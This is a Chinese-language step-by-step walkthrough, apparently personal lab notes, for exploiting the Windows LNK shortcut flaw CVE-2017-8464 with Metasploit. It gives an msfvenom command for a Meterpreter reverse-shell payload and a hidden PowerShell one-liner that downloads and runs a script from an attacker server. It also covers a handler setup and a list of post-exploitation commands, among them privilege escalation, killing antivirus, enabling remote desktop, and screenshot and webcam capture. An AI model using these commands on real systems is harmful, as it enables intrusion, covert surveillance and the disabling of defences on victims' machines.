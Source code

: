 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，LNK是windows系统内应用程序快捷方式文件的文件类型后缀名。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：msfconsole

开始利用：

#### 1 使用MSF创建一个后门

msf内输入：

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 -f psh-reflection>/var/www/html/link.ps1

#### 2 在kali下开启apache2

终端内输入：service apache2 start

#### 3 通过社会学进行快捷方式传播

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.204.135/link.ps1');test.ps1"

![[1641972171811.png]]

![[1641972183309.png]]

#### 4 回到MSF终端配置监听

msf内输入：  use exploit/multi/handler

#### 5 配置payload

set payload windows/x64/meterpreter/reverse_tcp

![[1641972198597.png]]

msf中输入 ： show options   配置payload

![[1641972211876.png]]

设置 LHOST  和  LPORT

maf中输入：

5.1  set lhost `<当前机器ip>` 设置 LHOST

5.2  set lport  `<未被占用的端口>`  设置 LPORT

![[1641972223277.png]]

5.3  最后在 输入 show options 查看配置是否生效

![[1641972233527.png]]

#### 6 执行监听

msf中输入 ： run 或者  exploit

![[1641972244295.png]]

进入靶机执行我们在靶机上创建的快捷方式

![[1641972183309.png]]

稍等片刻获取到meterpreter

![[1641972268406.png]]

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![[1641972283719.png]]

发现shell显示有乱码

shell内输入  chcp 65001

![[1641972295944.png]]

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：cd users/mb/desktop

![[1641972307789.png]]

2 更多操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd